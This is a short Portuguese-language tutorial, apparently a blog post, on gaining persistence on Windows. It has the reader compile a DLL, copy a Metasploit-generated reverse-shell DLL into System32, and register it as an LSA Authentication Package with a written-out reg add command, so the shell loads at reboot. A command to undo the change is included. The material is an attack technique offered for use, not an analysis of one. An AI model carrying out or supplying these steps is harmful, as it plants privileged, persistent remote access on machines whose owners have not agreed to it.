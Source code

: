 bem basicamente voce copia isso em um arquivo .cpp e compila em dll e não exe,e então joga na pasta system32. obs nomear a dll para sspap.dll.

agora a magica vamos gerar uma dll reverse shell no metasploit e então copia a dll pasta system 32 também obs : no codigo definimos a dll para test.dll entao devemos nomear esta dll para test.dll antes de colocar em system32, e o ultimo passo é executar esse comando no cmd,esse comando cria uma chave de registro.
~~~
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v "Authentication Packages" /t REG_MULTI_SZ /d "msv1_0"\0"sspap.dll" /f
~~~

e esse caso deseja remover:
~~~
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v "Authentication Packages" /t REG_MULTI_SZ /d "msv1_0" /f
~~~

e pronto basta apenas reiniciar o sistema.





